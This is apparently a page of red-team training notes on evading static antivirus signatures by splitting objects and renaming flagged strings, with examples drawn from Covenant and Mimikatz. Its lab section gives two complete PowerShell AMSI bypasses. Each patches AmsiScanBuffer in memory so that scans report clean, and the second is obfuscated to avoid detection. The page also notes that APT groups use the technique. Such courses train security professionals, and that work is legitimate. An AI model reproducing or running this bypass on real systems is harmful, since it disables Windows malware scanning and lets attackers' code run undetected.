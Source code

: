 # Static code-based signatures

The [Layered Obfuscation Taxonomy](../obfuscation/principles.md) covers the most reliable solutions as part of the 
Obfuscating Methods and Obfuscating Classes layer.

* The techniques class splitting/coalescing and method scattering/aggregation can be grouped into an overarching 
concept of splitting or merging any given OOP (Object-Oriented Programming) function.
* Other techniques such as dropping modifiers or method clone can be grouped into an overarching concept of removing 
or obscuring identifiable information.

## Splitting and merging objects

The methodology required to split or merge objects is very similar to the objective of concatenation: Create a new 
object function that can break the signature while maintaining the previous functionality. 

As an example, in [Using Custom Covenant Listener Profiles & Grunt Templates to Elude AV](https://offensivedefence.co.uk/posts/covenant-profiles-templates/) 
a string is replaced with a call to a new object (class) splitting the message.

The original offending string:

    string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2},""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";

Obfuscated Method: The new class used to replace and concatenate the string.

    public static string GetMessageFormat // Format the public method
    {
        get // Return the property value
        {
            var sb = new StringBuilder(@"{{""GUID"":""{0}"","); // Start the built-in concatenation method
            sb.Append(@"""Type"":{1},"); // Append substrings onto the string
            sb.Append(@"""Meta"":""{2}"",");
            sb.Append(@"""IV"":""{3}"",");
            sb.Append(@"""EncryptedMessage"":""{4}"",");
            sb.Append(@"""HMAC"":""{5}""}}");
            return sb.ToString(); // Return the concatenated string to the class
        }
    }
    
    string MessageFormat = GetMessageFormat

## Removing and obscuring identifiable information

Applying [removing identifiable information](../obfuscation/info.md) to identified signatures in any objects 
including methods and classes.

An example of this can be found in Mimikatz where an alert is generated for the string `wdigest.dl`l. This can be 
solved by replacing the string with any random identifier changed throughout all instances of the string. This can 
be categorised in the [obfuscation taxonomy](../obfuscation/principles.md) under the method `proxy technique`.

## Lab

Obfuscate the following PowerShell snippet, using AmsiTrigger to check signatures. Once sufficiently obfuscated, 
submit the snippet to the webserver at `http://IP address/challenge-1.html`. The file name must be saved as 
`challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up.

```text
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Becomes:

```text
$MethodDefinition = @'

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule,string procName);

    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
'@

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ASBD = "AmsiS"+"canBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ASBD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = new-object byte [] 6
$buf[0] = [UInt32]0xB8
$buf[1] = [UInt32]0x57
$buf[2] = [UInt32]0x00
$buf[3] = [Uint32]0x07
$buf[4] = [Uint32]0x80
$buf[5] = [Uint32]0xC3
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

[DEFCON-27-Workshop-Anthony-Rose-Introduction-to-AMSI-Bypasses-and-Sandbox-Evasion-Notes.pdf](https://media.defcon.org/DEF%20CON%2027/DEF%20CON%2027%20workshops/DEFCON-27-Workshop-Anthony-Rose-Introduction-to-AMSI-Bypasses-and-Sandbox-Evasion-Notes.pdf):

This method works by using C# to expose the native API calls in `Kernel32` to powershell. This allows us to obtain 
where in memory the AMSI Scan buffer is and patch in a command to return a good scan result prior to the function 
actually scanning our commands. It does not cause AMSI to fail instead preserving the appearance of the scan being 
completed fully. APTs have been observed using 
[this technique in the wild](https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/).

And flag!
